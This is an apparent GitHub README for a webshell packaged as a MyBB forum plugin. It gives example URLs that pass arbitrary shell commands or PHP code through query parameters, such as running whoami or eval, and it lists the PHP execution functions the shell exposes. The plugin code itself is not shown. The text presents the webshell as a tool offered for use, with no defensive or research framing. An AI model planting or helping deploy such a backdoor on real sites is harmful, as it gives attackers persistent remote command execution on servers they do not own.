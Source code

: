 # MyBB-Shell-Plugin
MyBB Webshell Plugin

A plugin coded to be compatible with any version of MyBB *


A simple PHP webshell:
  After Activation:
    http://127.0.0.1/mybb/?cmd=FUNCTION&command=COMMAND
    
  Examples:
    http://127.0.0.1/mybb/?cmd=shell_exec&command=whoami
  http://127.0.0.1/mybb/?cmd=eval&command=phpinfo();
    
Current functions:
  shell_exec
  passthru
  exec
  system
  popen
  proc_open
  eval
  assert
  pcntl_exec
  ``
  
